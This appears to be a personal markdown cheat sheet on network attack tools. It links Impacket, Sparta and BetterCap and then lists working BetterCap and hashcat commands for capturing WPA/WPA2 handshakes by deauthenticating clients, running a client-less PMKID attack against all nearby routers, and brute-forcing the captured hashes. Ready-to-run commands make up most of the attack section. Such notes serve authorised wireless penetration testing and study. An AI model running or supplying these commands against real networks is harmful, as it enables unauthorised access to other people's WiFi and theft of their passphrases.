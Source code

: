 # Tools

- [Beginner's Guide to Impacket Tool kit (Part 1)](https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/)
- Inject code and spy on wifi users: <https://github.com/DanMcInerney/LANs.py>
- Collection of PowerShell network security scripts for system administrators: <https://github.com/thom-s/netsec-ps-scripts>
- [CyberScan: Network's Forensics ToolKit](https://github.com/medbenali/CyberScan)

# Sparta

https://github.com/SECFORCE/sparta

# BetterCap

Swiss army knife for network attacks and monitoring: <https://www.bettercap.org/>

> Pwning WPA/WPA2 Networks With Bettercap and the PMKID Client-Less Attack: <https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/#.XGRV3mo06jA.twitter>

## 4 way handshake capture:

```
sudo bettercap -iface wlan0

# this will set the interface in monitor mode and start channel hopping on all supported frequencies
> wifi.recon on
# we want our APs sorted by number of clients for this attack, the default sorting would be `rssi asc`
> set wifi.show.sort clients desc
# every second, clear our view and present an updated list of nearby WiFi networks
> set ticker.commands 'clear; wifi.show'
> ticker on
```

```
wifi.recon.channel 1
```

```
wifi.deauth e0:xx:xx:xx:xx:xx
```

## Cracking 4-way handshake

```
/path/to/cap2hccapx /root/bettercap-wifi-handshakes.pcap bettercap-wifi-handshakes.hccapx
/path/to/hashcat -m2500 -a3 -w3 bettercap-wifi-handshakes.hccapx '?d?d?d?d?d?d?d?d'
```

## Client-less PMKID Attack

> <https://hashcat.net/forum/thread-7717.html>

> PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)

```
# wifi.assoc supports 'all' (or `*`) or a specific BSSID, just like wifi.deauth
> wifi.assoc all
```

All nearby vulnerable routers (and let me reiterate: a lot of them are vulnerable), will start sending you the PMKID, which bettercap will dump to the usual pcap file:

## PMKID Cracking

```
/path/to/hcxpcaptool -z bettercap-wifi-handshakes.pmkid /root/bettercap-wifi-handshakes.pcap
/path/to/hashcat -m16800 -a3 -w3 bettercap-wifi-handshakes.pmkid '?d?d?d?d?d?d?d?d'
```
